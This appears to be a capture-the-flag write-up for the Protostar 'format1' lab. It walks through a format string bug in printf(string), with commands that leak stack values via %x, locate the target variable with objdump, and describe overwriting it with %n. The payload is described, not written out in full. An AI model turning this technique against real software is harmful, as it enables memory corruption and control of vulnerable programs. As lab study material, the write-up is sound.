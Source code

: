 **Format1**

This was not an easy challenge.

If you look closesly at the source code you see that the printf prints string as the format string variable.

```diff
$ printf(string);
```

Let's see what happens if we insert a random string

```diff
$ user@protostar:/opt/protostar/bin$ ./format1 AAAA
AAAAuser@protostar:/opt/protostar/bin$ 
```

The printf prints out out string.
Now let's try a format string.

```diff
$ user@protostar:/opt/protostar/bin$ ./format1 %d
134518284user@protostar:/opt/protostar/bin$ 
```

This looks like a memory address, we can try to print a few with them with %x.
The hints state that objdump -t is our friend (to find target's address) and our input string lies far up in the stack.
We need to find out exactly where lies our input, insert target's address and top it with a %n to modify target with a format string exploit.
Sound complicated? Let us first find out where our string lies

```diff
$ ./format1 "$(python -c "print 'ABCDEFGH' + '%x '*150")"
ABCDEFGH804960c bffff628 8048469 b7fd8304 b7fd7ff4 bffff628 8048435 bffff7eb b7ff1040 804845b b7fd7ff4 8048450 0 bffff6a8 b7eadc76 2 bffff6d4 bffff6e0 b7fe1848 bffff690 ffffffff b7ffeff4 804824d 1 bffff690 b7ff0626 b7fffab0 b7fe1b28 b7fd7ff4 0 0 bffff6a8 39f3e985 13a7ff95 0 0 0 2 8048340 0 b7ff6210 b7eadb9b b7ffeff4 2 8048340 0 8048361 804841c 2 bffff6d4 8048450 8048440 b7ff1040 bffff6cc b7fff8f8 2 bffff7e1 bffff7eb 0 bffff9b6 bffff9c4 bffff9d8 bffff9fa bffffa0d bffffa17 bfffff07 bfffff45 bfffff59 bfffff70 bfffff81 bfffff89 bfffff99 bfffffa6 bfffffda bfffffe6 0 20 b7fe2414 21 b7fe2000 10 178bfbbf 6 1000 11 64 3 8048034 4 20 5 7 7 b7fe3000 8 0 9 8048340 b 3e9 c 0 d 3e9 e 3e9 17 1 19 bffff7cb 1f bffffff2 f bffff7db 0 0 0 a3000000 c4d03e41 d17d630f 186ae1da 692c8fff 363836 662f2e00 616d726f 41003174 **45444342** 25484746 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 user@protostar:/opt/protostar/bin$ 
```

There it is! (in bold). now we need to find out target's address

```diff
$ objdump -t format1 | grep target
08049638 g     O .bss	00000004              target
```

Now, if we look at my python script, I bruteforced the offset of our input (I was lazy). We want to insert in our target address in little endian format.

What? why is it not aligned at all?

This took me hours on hours of debugging, we need to insert a few characters before and after our input to re-align target's address.
Then, we add the %n and look proud!